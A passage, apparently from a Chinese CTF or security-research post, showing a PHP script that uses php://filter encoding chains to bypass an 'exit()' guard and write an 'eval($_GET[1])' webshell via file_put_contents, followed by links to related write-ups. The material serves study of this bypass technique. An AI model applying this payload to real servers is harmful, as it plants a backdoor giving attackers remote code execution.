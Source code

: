 ```php
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW',
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
@mkdir('./test');
@chdir('./test');

foreach ($a as $item) {
    $content = 'php://filter/zlib.deflate|' . $item . '|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e'.$item.'.php';
    file_put_contents($content, '<?php exit();' . $content);
}

```







# 参考及转载资料

- [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
- [关于file_put_contents的一些小测试](https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/)
- [WMctf2020 Checkin出题想法&题解](https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/)